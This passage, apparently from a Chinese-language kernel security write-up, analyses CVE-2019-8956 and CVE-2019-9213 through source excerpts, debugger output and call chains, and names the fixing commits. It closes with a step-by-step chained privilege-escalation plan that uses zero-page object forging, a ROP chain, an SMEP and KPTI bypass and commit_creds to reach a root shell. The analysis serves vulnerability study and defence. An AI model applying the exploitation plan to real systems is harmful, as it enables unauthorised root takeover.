**CVE-2019-8956** 是 Linux 内核 SCTP 协议栈中 `sctp_sendmsg()` 函数的一个逻辑缺陷。当用户通过 `sendmsg()` 发送同时设置了 `SCTP_SENDALL` 和 `SCTP_ABORT` 标志的消息时，内核进入 `SCTP_SENDALL` 处理分支，使用非安全的 `list_for_each_entry` 宏遍历端点关联链表 `ep->asocs`。在第一次循环中，`sctp_sendmsg_check_sflags` 检测到 `SCTP_ABORT` 后触发关联释放，经过 `sctp_primitive_ABORT` → `sctp_do_sm` → `sctp_side_effects` → `sctp_cmd_interpreter` → `sctp_cmd_delete_tcb` → `sctp_association_free` → `list_del` 这条完整的调用链，将当前关联从链表中删除。`list_del` 将被删除关联的 `asocs.next` 和 `asocs.prev` 分别置为毒化值 `LIST_POISON1`（`0x100`）和 `LIST_POISON2`（`0x200`）。由于 `sctp_sendmsg_check_sflags` 返回 `0`，循环执行 `continue` 进入下一次迭代。此时 `list_for_each_entry` 读取已被毒化的 `next` 指针（`0x100`），并通过 `container_of` 计算出下一个关联的地址：`0x100 - 0x44 = 0xbc`（32 位系统下 `asocs` 字段在 `struct sctp_association` 中的偏移量为 `0x44`）。这个接近 NULL 的地址 `0xbc` 落在零页范围内。若操作者已通过 **CVE-2019-9213** 将虚拟地址 0 映射为可写页面，并在地址 `0xbc` 处预先布置伪造的 `sctp_association` 对象及相关内核结构（如 `sctp_sock`、`sctp_sm_table_entry`），则后续的 `sctp_sm_lookup_event` 将从伪造结构中读取函数指针，从而实现控制流劫持。

该漏洞单独触发只能得到一个接近 NULL 的解引用，但配合 **CVE-2019-9213** 的零页映射，可将不可控的崩溃转化为精确的代码执行，最终实现权限提升。

### 3-2. 关键函数分析

#### 3-2-1. `sctp_sendmsg`

```c
// net/sctp/socket.c L2057
static int sctp_sendmsg(struct sock *sk, struct msghdr *msg, size_t msg_len)
{
    struct sctp_endpoint *ep = sctp_sk(sk)->ep;
    struct sctp_association *asoc;
    __u16 sflags;
    int err;

    // ... 解析消息，获取 sflags ...

    lock_sock(sk);

    /* SCTP_SENDALL process */
    // sflags = 0x44 (SCTP_SENDALL | SCTP_ABORT)
    if ((sflags & SCTP_SENDALL) && sctp_style(sk, UDP)) {
        // 使用非安全遍历宏：list_for_each_entry
        list_for_each_entry(asoc, &ep->asocs, asocs) {
            // 第一次循环：asoc = 合法关联 (如 0xca032800)
            // 第二次循环：asoc = 0xbc (由毒化指针计算得出)
            err = sctp_sendmsg_check_sflags(asoc, sflags, msg, msg_len);
            if (err == 0)
                continue;   // 第一次循环返回0，继续；此时关联已被删除
            if (err < 0)
                goto out_unlock;
            // ... 正常发送路径 ...
        }
        goto out_unlock;
    }
    // ... 其他路径 ...
out_unlock:
    release_sock(sk);
out:
    return sctp_error(sk, msg->msg_flags, err);
}
```

**关键点**：`list_for_each_entry` 是非安全版本，它不会检查节点是否已被移除。当循环体内删除当前节点后，宏仍然尝试读取已被毒化的 `next` 指针。

#### 3-2-2. `sctp_sendmsg_check_sflags`

```c
// net/sctp/socket.c L1868
static int sctp_sendmsg_check_sflags(struct sctp_association *asoc,
                                     __u16 sflags, struct msghdr *msg,
                                     size_t msg_len)
{
    struct sock *sk = asoc->base.sk;
    struct net *net = sock_net(sk);

    // 第一次调用：asoc 有效，sk 正常
    // 第二次调用：asoc = 0xbc，sk = *(0xbc + offsetof(base.sk)) = 0x0
    // net = sock_net(0x0) = 0x0

    if (sctp_state(asoc, CLOSED) && sctp_style(sk, TCP))
        return -EPIPE;

    if ((sflags & SCTP_SENDALL) && sctp_style(sk, UDP) &&
        !sctp_state(asoc, ESTABLISHED))
        return 0;

    if (sflags & SCTP_ABORT) {
        struct sctp_chunk *chunk;
        // 第二次调用：asoc=0xbc，msg 有效，paylen=0
        chunk = sctp_make_abort_user(asoc, msg, msg_len);
        if (!chunk)
            return -ENOMEM;

        // 调用原始 ABORT 原语，传入 net=0x0, asoc=0xbc
        sctp_primitive_ABORT(net, asoc, chunk);
        return 0;
    }
    return 1;
}
```

**调试输出**（第二次调用时）：

```
pwndbg> p/x asoc->base.sk
$13 = 0x0
pwndbg> p/x asoc->base.sk.__sk_common.skc_net
$14 = { net = 0x0 }
```

**关键点**：当 `asoc` 为 `0xbc` 时，`asoc->base.sk` 指向地址 `0xbc + 0x00`（`base.sk` 偏移为0），该地址由操作者在零页上伪造，值为 `0x0`。因此 `net` 也为 `0x0`。后续 `sctp_primitive_ABORT` 将使用这些伪造的参数。

#### 3-2-3. `sctp_primitive_ABORT`

```c
// net/sctp/primitive.c L65 宏定义
#define DECLARE_PRIMITIVE(name) \
int sctp_primitive_##name(struct net *net, struct sctp_association *asoc, \
                          void *arg) { \
    enum sctp_state state = asoc ? asoc->state : SCTP_STATE_CLOSED; \
    struct sctp_endpoint *ep = asoc ? asoc->ep : NULL; \
    // 第二次调用：asoc=0xbc，state = *(0xbc + offsetof(state))，ep = *(0xbc + offsetof(ep))
    // 这些值由操作者在零页上伪造
    error = sctp_do_sm(net, event_type, subtype, state, ep, asoc, arg, GFP_KERNEL); \
    return error; \
}
```

**调试输出**（第二次调用时）：

```
pwndbg> bt
#0  sctp_primitive_ABORT (net=0x0, asoc=0xbc, arg=0xc9cad300)
```

**关键点**：`state` 和 `ep` 均来自伪造的 `asoc` 结构体。`state` 被设为某个非法值（如 `0x7cae5f8`），`ep` 被设为 `0x0`。这些值将直接影响后续的查表操作。

#### 3-2-4. `sctp_do_sm`

```c
// net/sctp/sm_sideeffect.c L1183
int sctp_do_sm(struct net *net, enum sctp_event event_type,
               union sctp_subtype subtype, enum sctp_state state,
               struct sctp_endpoint *ep, struct sctp_association *asoc,
               void *event_arg, gfp_t gfp)
{
    const struct sctp_sm_table_entry *state_fn;

    // 第一次调用（正常路径）：参数合法，state_fn 指向正确的表项
    // 第二次调用参数：
    // net=0x0, event_type=SCTP_EVENT_T_PRIMITIVE, subtype=2,
    // state=0x7cae5f8, ep=0x0, asoc=0xbc, event_arg=0xc9cad300

    state_fn = sctp_sm_lookup_event(net, event_type, state, subtype);
    // 第二次调用返回值：state_fn = 0x0 （因为 state 过大导致数组越界访问）

    sctp_init_cmd_seq(&commands);
    // 第二次调用：调用伪造的函数指针
    status = state_fn->fn(net, ep, asoc, subtype, event_arg, &commands);
    // state_fn->fn 指向操作者预设的栈迁移 gadget
    // ...
}
```

**调试输出**（第二次调用时）：

```
pwndbg> p/x *(struct sctp_sm_table_entry*)0x0
$18 = {
  fn = 0x804b491,   // 操作者控制的地址（ret2usr 函数）
  name = 0x64726f77
}
```

**关键点**：由于 `state` 被伪造为一个很大的值（`0x7cae5f8`），在 `sctp_sm_lookup_event` 中通过二维数组 `primitive_event_table[subtype][state]` 进行索引时，计算出的地址远远超出表格范围，最终得到 `0x0`。操作者在零页地址 `0x0` 处放置了伪造的 `sctp_sm_table_entry` 结构体，其中 `fn` 指向栈迁移 gadget，从而接管控制流。

#### 3-2-5. `sctp_sm_lookup_event`

```c
// net/sctp/sm_statetable.c L96
const struct sctp_sm_table_entry *sctp_sm_lookup_event(
    struct net *net,
    enum sctp_event event_type,
    enum sctp_state state,
    union sctp_subtype event_subtype)
{
    switch (event_type) {
    case SCTP_EVENT_T_PRIMITIVE:
        // 宏展开：rtn = &primitive_event_table[event_subtype.primitive][(int)state];
        // event_subtype.primitive = 2, state = 0x7cae5f8
        // 计算结果：&primitive_event_table[2][0x7cae5f8] = 0x0
        return DO_LOOKUP(SCTP_EVENT_PRIMITIVE_MAX, primitive,
                         primitive_event_table);
    default:
        return &bug;
    }
}
```

**调试输出**：

```
pwndbg> x/1gx primitive_event_table
0xc1a8cfc0 <primitive_event_table>:     0xc1d10047c1948af0
pwndbg> p/x &primitive_event_table[2][0x7cae5f8]
$17 = 0x0
```

**关键点**：`primitive_event_table` 是一个二维数组，第一维大小为 `SCTP_EVENT_PRIMITIVE_MAX + 1`（通常很小，如 6）。当 `state` 远大于合法范围时，指针运算溢出，最终指向地址 `0x0`。操作者利用这一点，在零页上布置伪造的表项。

#### 3-2-6. `sctp_side_effects`

```c
// net/sctp/sm_sideeffect.c L1220
static int sctp_side_effects(enum sctp_event event_type,
                              union sctp_subtype subtype,
                              enum sctp_state state,
                              struct sctp_endpoint *ep,
                              struct sctp_association **asoc,
                              void *event_arg,
                              enum sctp_disposition status,
                              struct sctp_cmd_seq *commands,
                              gfp_t gfp)
{
    // 第一次调用：status 为 sctp_sf_do_9_1_prm_abort 的返回值（通常是 DISPOSITION_ABORT）
    // 然后调用 sctp_cmd_interpreter 处理命令序列
    return sctp_cmd_interpreter(event_type, subtype, state, ep, *asoc,
                                event_arg, status, commands, gfp);
}
```

**关键点**：`sctp_side_effects` 负责解释状态机执行后产生的命令序列。对于 ABORT 原语，命令序列中包含 `SCTP_CMD_DELETE_TCB` 命令，该命令会触发关联删除。

#### 3-2-7. `sctp_cmd_interpreter`

```c
// net/sctp/sm_sideeffect.c L1353
static int sctp_cmd_interpreter(enum sctp_event event_type,
                                union sctp_subtype subtype,
                                enum sctp_state state,
                                struct sctp_endpoint *ep,
                                struct sctp_association *asoc,
                                void *event_arg,
                                enum sctp_disposition status,
                                struct sctp_cmd_seq *commands,
                                gfp_t gfp)
{
    struct sctp_cmd *cmd;
    int error = 0;

    while (NULL != (cmd = sctp_next_cmd(commands))) {
        switch (cmd->verb) {
        // ... 其他命令 ...
        case SCTP_CMD_DELETE_TCB:
            // 删除当前关联
            sctp_cmd_delete_tcb(commands, asoc);
            asoc = NULL;
            break;
        // ...
        }
    }
    return error;
}
```

**关键点**：当遇到 `SCTP_CMD_DELETE_TCB` 命令时，调用 `sctp_cmd_delete_tcb` 执行实际的关联释放操作。这是在第一次循环的正常路径中执行的。

#### 3-2-8. `sctp_cmd_delete_tcb`

```c
// net/sctp/sm_sideeffect.c L939
static void sctp_cmd_delete_tcb(struct sctp_cmd_seq *cmds,
                                 struct sctp_association *asoc)
{
    // 释放关联的所有资源，并从端点的关联链表中删除
    sctp_association_free(asoc);
}
```

**关键点**：直接调用 `sctp_association_free`，这是最终触发 `list_del` 的地方。

#### 3-2-9. `sctp_association_free`

```c
// net/sctp/associola.c L345
void sctp_association_free(struct sctp_association *asoc)
{
    struct sock *sk = asoc->base.sk;

    // 从端点关联链表中删除
    if (!list_empty(&asoc->asocs)) {
        list_del(&asoc->asocs);
        // ...
    }

    // ... 释放其他资源 ...

    // 减少引用计数
    sctp_association_put(asoc);
}
```

**调试输出**（第一次调用时）：

```
pwndbg> x/2wx 0xca034044   // &asoc->asocs
0xca034044:     0xca32f284      0xca32f284   // 删除前
// list_del 后：
0xca034044:     0x00000100      0x00000200   // next=LIST_POISON1, prev=LIST_POISON2
```

**关键点**：`list_del` 将 `asoc->asocs.next` 置为 `LIST_POISON1`（`0x100`），`asoc->asocs.prev` 置为 `LIST_POISON2`（`0x200`）。这些毒化值将在后续的 `list_for_each_entry` 遍历中被读取。

#### 3-2-10. `list_del`

```c
// include/linux/list.h
static inline void list_del(struct list_head *entry)
{
    __list_del_entry(entry);
    entry->next = LIST_POISON1;   // 0x100
    entry->prev = LIST_POISON2;   // 0x200
}
```

**关键点**：`list_del` 不仅将节点从链表中移除，还将节点的 `next` 和 `prev` 指针设置为特殊的毒化值，用于检测已删除节点的非法使用。然而，`list_for_each_entry` 并不检查这些毒化值，直接将其当作有效指针使用。

### 3-3. 漏洞触发流程

整个触发流程可分为两个阶段：

**阶段一：正常关联建立与首次遍历**

1. 操作者创建一个 `AF_SCTP` UDP 样式的 socket，并与远端建立一个关联（association），该关联被添加到端点 `ep->asocs` 链表中。
2. 调用 `sendmsg()`，设置 `sinfo_flags = SCTP_SENDALL | SCTP_ABORT`（即 `0x44`）。
3. 内核进入 `sctp_sendmsg` 的 `SCTP_SENDALL` 分支，使用 `list_for_each_entry` 遍历 `ep->asocs`。
4. 第一次循环中，`asoc` 指向合法的关联（如 `0xca032800`）。调用 `sctp_sendmsg_check_sflags`，检测到 `SCTP_ABORT` 标志，执行以下完整调用链：
    - `sctp_make_abort_user` 创建 ABORT chunk。
    - `sctp_primitive_ABORT(net, asoc, chunk)` → 宏展开后调用 `sctp_do_sm`。
    - `sctp_do_sm` 调用 `sctp_sm_lookup_event` 查找状态机表项，找到 `sctp_sf_do_9_1_prm_abort` 函数。
    - `sctp_sf_do_9_1_prm_abort` 执行后产生命令序列，包含 `SCTP_CMD_DELETE_TCB`。
    - `sctp_side_effects` 调用 `sctp_cmd_interpreter` 处理命令序列。
    - `sctp_cmd_interpreter` 遇到 `SCTP_CMD_DELETE_TCB`，调用 `sctp_cmd_delete_tcb`。
    - `sctp_cmd_delete_tcb` 调用 `sctp_association_free(asoc)`。
    - `sctp_association_free` 中，`list_del(&asoc->asocs)` 将 `asocs.next` 置为 `LIST_POISON1`（`0x100`），`asocs.prev` 置为 `LIST_POISON2`（`0x200`）。
    - 函数返回 `0`。
5. 循环执行 `continue`，进入下一次迭代。

**阶段二：毒化指针导致接近 NULL 解引用**

6. `list_for_each_entry` 宏读取 `asoc->asocs.next`，此时该值已被毒化为 `0x100`。
7. 宏通过 `container_of(0x100, struct sctp_association, asocs)` 计算下一个关联地址：`0x100 - 0x44 = 0xbc`。
8. 第二次循环开始，`asoc` 变为 `0xbc`。再次调用 `sctp_sendmsg_check_sflags`：
    - `asoc->base.sk` 位于 `0xbc + 0x00`，该地址已被操作者在零页上伪造为 `0x0`。
    - `sock_net(sk)` 返回 `0x0`。
    - 由于 `sflags` 仍包含 `SCTP_ABORT`，再次进入 ABORT 路径。
    - 调用 `sctp_make_abort_user(asoc=0xbc, ...)`，该函数会从伪造的 `asoc` 中读取字段，操作者已精心构造使其成功返回。
    - 调用 `sctp_primitive_ABORT(net=0x0, asoc=0xbc, chunk)`。
9. 在 `sctp_primitive_ABORT` 中，从伪造的 `asoc` 中读取 `state` 和 `ep`：
    - `state = asoc->state`（位于 `0xbc + offsetof(state)`），操作者设为一个大值（如 `0x7cae5f8`）。
    - `ep = asoc->ep`（位于 `0xbc + offsetof(ep)`），操作者设为 `0x0`。
10. 调用 `sctp_do_sm(net=0x0, event_type=PRIMITIVE, subtype=2, state=0x7cae5f8, ep=0x0, asoc=0xbc, ...)`。
11. 在 `sctp_do_sm` 中，调用 `sctp_sm_lookup_event` 查找状态机表项：
    - 由于 `state` 极大，二维数组索引越界，计算结果为地址 `0x0`。
    - 返回 `state_fn = 0x0`（指向零页）。
12. 操作者在零页地址 `0x0` 处放置了伪造的 `sctp_sm_table_entry` 结构体，其中 `fn` 指向栈迁移 gadget。
13. 执行 `state_fn->fn(...)`，控制流被劫持到栈迁移 gadget，进而跳转到零页上预置的 ROP 链。
14. ROP 链执行权限提升操作（如 `commit_creds(prepare_kernel_cred(0))`），然后通过 `iret` 返回用户态，获得 root shell。

### 3-4. 分析总结

**CVE-2019-8956** 的本质是**非安全链表遍历导致的指针毒化**。具体而言，`list_for_each_entry` 宏在循环体内删除当前节点后，没有提供安全的下一个节点获取机制，导致后续迭代读取已被毒化的 `next` 指针，进而通过 `container_of` 计算出错误的地址。

完整的调用链清晰地展示了错误如何从 `sctp_sendmsg` 传播至 `list_del` 再回到遍历循环：

```
sctp_sendmsg()
  └─ list_for_each_entry(asoc, &ep->asocs, asocs)  // 非安全遍历
       └─ sctp_sendmsg_check_sflags(asoc, sflags, ...)
            └─ sctp_primitive_ABORT(net, asoc, chunk)
                 └─ sctp_do_sm()
                      └─ sctp_side_effects()
                           └─ sctp_cmd_interpreter()
                                └─ sctp_cmd_delete_tcb()
                                     └─ sctp_association_free(asoc)
                                          └─ list_del(&asoc->asocs)
                                               // asoc->asocs.next = LIST_POISON1 (0x100)
                                               // asoc->asocs.prev = LIST_POISON2 (0x200)
  // 循环继续：
  └─ list_for_each_entry 读取 asoc->asocs.next = 0x100
     └─ container_of(0x100, struct sctp_association, asocs) = 0xbc
```

其中 `list_del` 对 `asocs.next` 的毒化是触发接近 NULL 解引用的直接原因。而后续的 `sctp_sm_lookup_event` 因伪造的 `state` 值导致数组越界，最终返回零页上的伪造表项，实现了完整的控制流劫持路径。

该漏洞的突出特点在于触发条件极其简单——仅需一次精心构造的 `sendmsg()` 调用，无需任何额外的堆喷射、内存布局调整或竞态条件。这使得它在实际利用中非常可靠。然而，单独触发只能得到一个接近 NULL 的解引用（`0xbc`），若无零页映射，内核将因访问无效地址而崩溃。这正是它与 **CVE-2019-9213** 串联利用的关键所在：**CVE-2019-9213** 提供了零页映射的能力，使得操作者可以在地址 `0xbc` 及附近布置伪造的内核对象，从而将一次原本不可控的崩溃转化为精确的控制流劫持。

从防御角度看，该漏洞的修复方案（commit `ba59fb027307`）非常简单——将 `list_for_each_entry` 替换为 `list_for_each_entry_safe`，后者在遍历过程中会缓存下一个节点，避免访问已被删除的节点。这一案例再次印证了内核开发中一个重要的经验法则：**在对链表进行遍历并可能删除当前节点的场景中，必须使用安全版本的遍历宏**。同时，它也提醒我们，即使是最简单的编程疏忽，在与适当的辅助漏洞配合时，也可能演变成严重的安全威胁。

## 4. CVE-2019-9213 漏洞分析

### 4-1. 漏洞概述

**CVE-2019-9213** 是 Linux 内核内存管理子系统中的一个权限检查绕过漏洞，位于 `mm/mmap.c` 的 `expand_downwards()` 函数中。该函数用于将 VMA 向下扩展（通常用于栈增长）。内核在 commit `8869477a49c3` 中为防范栈扩展到低地址而引入了 `security_mmap_addr()` 检查，但该检查内部使用 `current_cred()` 判断能力，而非目标进程的凭据。

当通过 `/proc/self/mem` 的 write 路径触发 VMA 扩展时，完整的调用链为：

```
mem_write
  → mem_rw
    → access_remote_vm
      → __access_remote_vm
        → get_user_pages_remote
          → __get_user_pages_locked
            → __get_user_pages
              → find_extend_vma
                → expand_stack
                  → expand_downwards
                    → security_mmap_addr
                      → cap_mmap_addr
```

在此上下文中，`current_cred()` 取自发起 write 的进程（而非目标 VMA 所属进程）。若借助一个拥有 `CAP_SYS_RAWIO` 能力的辅助进程（如 `su`）作为 write 发起方，能力检查就会被放行，从而将 VMA 扩展到地址 0，实现零页映射。

该漏洞本身仅提供零页映射能力，必须与其他空指针解引用漏洞（如 **CVE-2019-8956**）配合才能实现控制流重定向。补丁 `0a1d52994d44` 将其修复，将 `security_mmap_addr()` 替换为直接与 `mmap_min_addr` 比较，彻底消除对 `current_cred()` 的依赖。

下面将通过逐层源码分析，揭示漏洞的触发机制与权限检查上下文混淆的本质。

### 4-2. 关键函数分析

本节沿着漏洞触发路径，从最外层的 `/proc/self/mem` 写入入口开始，逐层深入至最终的权限检查函数，剖析每个环节的作用与漏洞点。

#### 4-2-1. 入口函数

```c
static ssize_t mem_write(struct file *file, const char __user *buf,
                         size_t count, loff_t *ppos)
{
    // 直接调用 mem_rw，write 标志为 1
    return mem_rw(file, (char __user*)buf, count, ppos, 1);
}
```

`mem_write` 是 `/proc/self/mem` 的 write 回调。它接收用户空间传来的缓冲区 `buf`（例如 `"Password: g"`）、长度 `count` 和文件偏移 `ppos`。`ppos` 指定了要写入的目标虚拟地址（例如 `0x0`）。随后将控制权交给 `mem_rw`。该函数本身逻辑简单，仅是通往更深层函数的桥梁。

**流程图**：



#### 4-2-2. 远程内存读写

```c
static ssize_t mem_rw(struct file *file, char __user *buf,
                      size_t count, loff_t *ppos, int write)
{
    struct mm_struct *mm = file->private_data; // 目标进程的 mm
    unsigned long addr = *ppos;                // 目标虚拟地址
    char *page;
    unsigned int flags;

    page = (char *)__get_free_page(GFP_KERNEL); // 分配临时内核页
    if (!page) return -ENOMEM;

    flags = FOLL_FORCE | (write ? FOLL_WRITE : 0);

    while (count > 0) {
        int this_len = min_t(int, count, PAGE_SIZE);
        if (write && copy_from_user(page, buf, this_len)) {
            // 将用户数据拷贝到内核临时页
            copied = -EFAULT; break;
        }
        // 核心：通过 access_remote_vm 将数据写入目标进程的地址空间
        this_len = access_remote_vm(mm, addr, page, this_len, flags);
        if (!this_len) { ... break; }
        // 更新偏移和计数
        buf += this_len; addr += this_len; copied += this_len; count -= this_len;
    }
    *ppos = addr;
    mmput(mm);
    free_page((unsigned long) page);
    return copied;
}
```

**关键点**：`access_remote_vm` 是真正执行跨进程内存访问的函数。它接收目标进程的 `mm`、目标虚拟地址 `addr`（例如 `0x0`）、临时内核页 `page` 和数据长度，以及 `gup_flags`（包含 `FOLL_FORCE | FOLL_WRITE`）。这里的 `addr` 直接来自文件偏移 `ppos`，若操作者将 `ppos` 设为 `0`，则尝试向地址 `0` 写入数据。接下来，`access_remote_vm` 将负责处理这个看似不可能的请求。

#### 4-2-3. 跨进程内存访问

```c
int access_remote_vm(struct mm_struct *mm, unsigned long addr,
                     void *buf, int len, unsigned int gup_flags)
{
    return __access_remote_vm(NULL, mm, addr, buf, len, gup_flags);
}
```

`__access_remote_vm` 遍历目标地址范围内的页面，通过 `get_user_pages_remote` 获取页面并执行读写：

```c
int __access_remote_vm(struct task_struct *tsk, struct mm_struct *mm,
                       unsigned long addr, void *buf, int len,
                       unsigned int gup_flags)
{
    while (len) {
        struct page *page = NULL;
        ret = get_user_pages_remote(tsk, mm, addr, 1,
                                    gup_flags, &page, &vma, NULL);
        if (ret <= 0) {
            // 若获取页面失败，可能是 VMA 不存在或地址无效
            // 对于本漏洞，首次调用时地址 0 尚未映射，会触发 VMA 扩展
            break;
        }
        // 映射页面并执行读写...
    }
}
```

**关键点**：当目标地址 `addr` 不在任何 VMA 范围内时，`get_user_pages_remote` 内部会调用 `find_extend_vma` 尝试扩展 VMA。这正是漏洞触发的起点——地址 `0` 通常没有任何 VMA，但若存在一个 `VM_GROWSDOWN` 的 VMA 且其起始地址高于 `0`，则有机会通过向下扩展将其覆盖到 `0`。

#### 4-2-4. 获取用户页面

```c
long get_user_pages_remote(struct task_struct *tsk, struct mm_struct *mm,
                           unsigned long start, unsigned long nr_pages,
                           unsigned int gup_flags, struct page **pages,
                           struct vm_area_struct **vmas, int *locked)
{
    return __get_user_pages_locked(tsk, mm, start, nr_pages, pages, vmas,
                                   locked, true,
                                   gup_flags | FOLL_TOUCH | FOLL_REMOTE);
}
```

`__get_user_pages_locked` 循环调用 `__get_user_pages` 直到获取足够的页面。`__get_user_pages` 在遍历过程中，若发现当前地址不在已有 VMA 内，会调用 `find_extend_vma` 尝试扩展。

```c
static long __get_user_pages(...)
{
    do {
        if (!vma || start >= vma->vm_end) {
            vma = find_extend_vma(mm, start);  // ← 关键调用
            if (!vma || check_vma_flags(vma, gup_flags))
                return i ? : -EFAULT;
        }
        // ... follow_page, faultin_page ...
    } while (nr_pages);
}
```

至此，调用链已经从用户态的 `write` 系统调用深入到了内核的内存管理核心。下一步，`find_extend_vma` 将决定是否真的允许 VMA 向下扩展。

#### 4-2-5. VMA 查找与扩展

```c
struct vm_area_struct *find_extend_vma(struct mm_struct *mm, unsigned long addr)
{
    struct vm_area_struct *vma;
    unsigned long start;

    addr &= PAGE_MASK;
    vma = find_vma(mm, addr);  // 查找包含 addr 或紧随其后的 VMA
    if (!vma) return NULL;
    if (vma->vm_start <= addr) return vma;  // 已包含
    if (!(vma->vm_flags & VM_GROWSDOWN)) return NULL;  // 不可向下扩展
    start = vma->vm_start;
    if (expand_stack(vma, addr))  // 尝试向下扩展
        return NULL;
    // 扩展成功
    return vma;
}
```

**关键点**：当 `addr`（例如 `0x0`）小于 VMA 的 `vm_start`（例如 `0x4000`）且 VMA 具有 `VM_GROWSDOWN` 标志时，会调用 `expand_stack` 尝试向下扩展 VMA。这就是漏洞的触发路径。这里的前提条件是：目标进程必须先创建一个带有 `MAP_GROWSDOWN` 标志的匿名映射，且其起始地址足够高（如 `0x10000`），以便通过多次扩展逐步降低到 `0`。

#### 4-2-6. 栈扩展

```c
int expand_stack(struct vm_area_struct *vma, unsigned long address)
{
    return expand_downwards(vma, address);
}
```

`expand_downwards` 是实际执行 VMA 扩展的函数：

```c
int expand_downwards(struct vm_area_struct *vma, unsigned long address)
{
    struct mm_struct *mm = vma->vm_mm;
    address &= PAGE_MASK;

    // ★ 漏洞点：security_mmap_addr 使用 current_cred() 检查
    error = security_mmap_addr(address);
    if (error) return error;

    // ... 后续扩展逻辑：更新 vma->vm_start 等 ...
    if (address < vma->vm_start) {
        // 执行扩展
        vma->vm_start = address;
        // ...
    }
    return error;
}
```

**漏洞点**：`security_mmap_addr(address)` 调用 `cap_mmap_addr`，后者使用 `current_cred()` 获取当前进程的凭据。而在 `/proc/self/mem` 的 write 路径中，`current` 是发起 write 的辅助进程（如 `su`），而不是目标 VMA 所属的进程。因此，如果辅助进程具有 `CAP_SYS_RAWIO`，即使 `address` 低于 `dac_mmap_min_addr`，检查也会通过。

#### 4-2-7. 权限检查

```c
int security_mmap_addr(unsigned long addr)
{
    return call_int_hook(mmap_addr, 0, addr);
}
```

```c
int cap_mmap_addr(unsigned long addr)
{
    int ret = 0;
    if (addr < dac_mmap_min_addr) {  // dac_mmap_min_addr = 0x10000
        ret = cap_capable(current_cred(), &init_user_ns,
                          CAP_SYS_RAWIO, SECURITY_CAP_AUDIT);
        if (ret == 0)
            current->flags |= PF_SUPERPRIV;
    }
    return ret;
}
```

**关键点**：`cap_capable` 检查 `current_cred()` 是否具有 `CAP_SYS_RAWIO` 能力。若当前进程（辅助进程）具有该能力（例如 `su` 以 root 运行），则返回 0，允许将 VMA 扩展到低地址（包括 `0x0`）。这便是整个漏洞的核心——权限检查使用了错误的进程上下文。

**流程图**：



### 4-3. 漏洞触发流程

以下序列图展示了从用户通过辅助进程向 `/proc/self/mem` 写入数据到 VMA 扩展到地址 0 的完整过程。分为三个阶段，每个阶段对应调用链中的一部分。

**阶段一：写入触发**

该阶段始于用户借助辅助进程（如 `su`）将标准输出重定向到 `/proc/self/mem`。辅助进程执行 `write` 系统调用，内核依次经过 `mem_write`、`mem_rw`，最终调用 `access_remote_vm` 尝试向目标进程的虚拟地址 `0` 写入数据。此时地址 `0` 尚未映射，因此需要触发 VMA 扩展。



**阶段二：VMA 查找与扩展**

`access_remote_vm` 通过 `__access_remote_vm` 调用 `get_user_pages_remote`，后者经多层封装到达 `__get_user_pages`。由于地址 `0` 不在任何现有 VMA 内，`__get_user_pages` 调用 `find_extend_vma` 查找最近的 VMA。找到的 VMA 起始地址为 `0x4000`，且带有 `VM_GROWSDOWN` 标志，因此触发 `expand_downwards` 尝试将 VMA 向下扩展至 `0`。



**阶段三：权限检查绕过**

`expand_downwards` 首先调用 `security_mmap_addr(0)` 进行安全检查。`security_mmap_addr` 委托给 `cap_mmap_addr`，后者发现地址 `0` 低于 `dac_mmap_min_addr`（`0x10000`），于是调用 `cap_capable` 检查当前进程（即辅助进程 `su`）是否具有 `CAP_SYS_RAWIO`。由于 `su` 以 root 运行，具有全部能力，检查通过。`expand_downwards` 随即执行 VMA 扩展，将 `vma->vm_start` 设为 `0`。此后，目标进程的虚拟地址 `0` 变为可映射区域，操作者可以通过 `MAP_FIXED` 将物理页面映射至此。



### 4-4. 分析总结

通过上述源码分析与流程梳理，可以将 **CVE-2019-9213** 漏洞的根因归纳如下表：

| 环节                        | 问题                                                                   |
| --------------------------- | ---------------------------------------------------------------------- |
| `expand_downwards` 安全检查 | 调用 `security_mmap_addr` 使用 `current_cred()`，而非目标进程的凭据    |
| `cap_mmap_addr` 权限判断    | 依赖 `current_cred()`，在 `/proc/self/mem` 路径下 `current` 为辅助进程 |
| 辅助进程特权                | 具有 `CAP_SYS_RAWIO` 的进程（如 `su`）可绕过低地址映射限制             |
| VMA 扩展结果                | 允许将 `VM_GROWSDOWN` VMA 扩展到地址 0，实现零页映射                   |

根本原因是**权限检查上下文错误**：commit `8869477a49c3` 引入的防护逻辑本意是防止栈扩展到低地址，但 `security_mmap_addr()` 在设计时未考虑 `/proc/self/mem` 这种跨进程内存访问路径。在该路径下，`current_cred()` 取自发起 write 的辅助进程，而非目标 VMA 所属进程，导致具有 `CAP_SYS_RAWIO` 的进程可以绕过 `dac_mmap_min_addr` 的限制。

该漏洞在补丁 `0a1d52994d44` 中被修复，将 `expand_downwards` 中的 `security_mmap_addr` 替换为直接与 `mmap_min_addr` 比较，消除了对 `current_cred()` 的依赖，从而彻底解决了上下文混淆问题。

## 5. 利用思路

### 5-1. 利用思路概述

本利用方案将 **CVE-2019-9213** 与 **CVE-2019-8956** 串联，在 Linux 4.20.7（x86 32 位）上实现本地权限提升。整体思路分为四个阶段，如下图所示：



1. **零页映射**：利用 **CVE-2019-9213**，通过一个具有 `CAP_SYS_RAWIO` 能力的辅助进程（`su`）向 `/proc/self/mem` 写入，绕过 `mmap_min_addr` 限制，将虚拟地址 0 映射为可写的用户空间页面。这一步是整个利用的基础，因为没有零页映射就无法在受控地址布置伪造的内核对象。

2. **伪造内核对象布置**：在零页上精心构造伪造的 `sctp_association`、`sctp_sock` 以及 `sctp_sm_table_entry` 结构体，并预置一段 ROP 链。这些结构体的布局与内核中对应结构的字段偏移严格匹配，确保内核在后续解引用时能够命中操作者控制的数据。特别地，`sctp_association` 的 `state` 字段需要精确计算，以使后续的 `sctp_sm_lookup_event` 查表结果指向零页。

3. **触发漏洞**：通过一次精心构造的 `sendmsg()` 调用（设置 `SCTP_SENDALL | SCTP_ABORT`），触发 `sctp_sendmsg` 中非安全链表遍历导致的指针毒化，使内核将 `asoc` 计算为 `0xbc`，进而读取零页上的伪造对象，最终通过状态机查表返回一个指向零页的 `state_fn` 指针。整个触发过程仅需一次系统调用，无需竞态条件或堆布局。

4. **控制流劫持与提权**：调用伪造的 `state_fn->fn` 时，执行栈迁移 gadget，将内核栈切换到零页上的 ROP 链。ROP 链依次完成禁用 SMEP（修改 CR4 寄存器）、调用 `commit_creds(prepare_kernel_cred(0))` 提升权限、修改 CR3 绕过 KPTI（切换到用户空间页表），最后通过 `iret` 指令返回用户态，获得 root shell。

